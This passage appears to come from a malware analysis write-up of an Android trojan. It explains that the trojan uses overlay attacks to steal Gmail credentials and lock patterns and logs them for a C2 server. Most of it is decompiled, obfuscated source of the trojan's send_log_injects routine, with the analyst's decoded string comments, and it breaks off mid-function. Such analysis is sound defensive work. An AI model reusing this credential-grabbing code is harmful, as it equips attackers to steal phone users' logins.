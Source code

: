 One of the targeted APPs The malware will try to steal is `Gmail`. The malware will try to steal `Gmail` credential using `Overlay attack`. And The malware will try to steal lockpattern using overlay attack. Then send logs to the C2 server.

```cs
 public void send_log_injects(String s) {
            if(!s.isEmpty()) {
                if(gtzkggpuaqjntiao.this.g.isEmpty()) {
                    String s1 = gtzkggpuaqjntiao.this.b.b(20);
                    gtzkggpuaqjntiao.this.g = s1;
                }

                JSONObject jSONObject0 = new JSONObject();
                if(gtzkggpuaqjntiao.this.f.equals("grabbing_pass_gmail")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aG, "");
                    String s2 = gtzkggpuaqjntiao.this.a("ZWJkNzMxZWFkOTM5NmUzMmE1YTk1NTUyNTAyZDY5YzBiY2RjY2NmMTlj");  // com.google.android.gm ==> Gmail APP
                    gtzkggpuaqjntiao.this.f = s2;
                }

                if(gtzkggpuaqjntiao.this.f.equals("grabbing_lockpattern")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aI, "");
                    gtzkggpuaqjntiao.this.f = "grabbing_lockpattern";
                    String s3 = s.replace(i.f(gtzkggpuaqjntiao.this.a("YzRmYjE2ZjRkYjBlNDMzOTkxZmUxNzQ2NWYyNDRkYzViMWYwYWZmZmJlYWVhOTI2ZGVjOWViMTQyYjcxMzU3YjFlODljYzQ0YTQ5ZTc1OTI0MzJmYjVlYTE1ZDJiMTgwOTMwNTRkNDYzNjRhOGZlMWZmNDcwYzM2Y2JkMGQ3YmQxYzc4YzljNjVmNjVmNTliNjhiNzIwODk5ZjQwYjE1Yg==")), "");  // LCJ0eXBlX2luamVjdHMiOiJwaW5jb2RlIiwiY2xvc2VkIjoiY2xvc2VfYWN0aXZpdHlfaW5qZWN0cyI=
                     // ,"type_injects":"pincode","closed":"close_activity_injects"
                     
                    gtzkggpuaqjntiao.this.b.f(this.mContext, gtzkggpuaqjntiao.this.a.ab, gtzkggpuaqjntiao.this.a("YzRkNzNmYWY5ZTA2NjAyMWJkYTkwOTVkMDQ2OQ==") + s3 + gtzkggpuaqjntiao.this.a("ZDM4OTY4Zjc4YjY0MzI3Njk0"));  // [143523#]
                                                                                                                                                                                                                           // Lock Pattern: 
                }
                else {
                    try {  // application
                        jSONObject0.put(gtzkggpuaqjntiao.this.a("ZTljODJjYThkNzM1NjAyMWEwYTMxNQ=="), gtzkggpuaqjntiao.this.f);  // application
                        jSONObject0.put(gtzkggpuaqjntiao.this.a("ZWNkOTI4YTU="), s);  // data
                    }
                    catch(JSONException unused_ex) {
                    }

                    i i0 = gtzkggpuaqjntiao.this.b;
                    Context context0 = this.mContext;
                    String s4 = gtzkggpuaqjntiao.this.g;
                    String s5 = jSONObject0.toString();
                    try {
                        String s6 = i0.j(context0, s4);
                        if(s6.isEmpty()) {
                            i0.e(context0, s4, s5);
                        }
                        else {
                            JSONObject jSONObject1 = new JSONObject(s6);
                            JSONObject jSONObject2 = new JSONObject(s5);
                            String s7 = jSONObject1.getString("data");
                            String s8 = jSONObject1.getString("data");
                            s5 = jSONObject2.getString("data");
                            i0.a("str_getParams", String.valueOf(s7));
                            i0.a("str_params", String.valueOf(s5));
                            JSONObject jSONObject3 = i.a(new JSONObject(s7), new JSONObject(s5));
                            JSONObject jSONObject4 = new JSONObject();
```
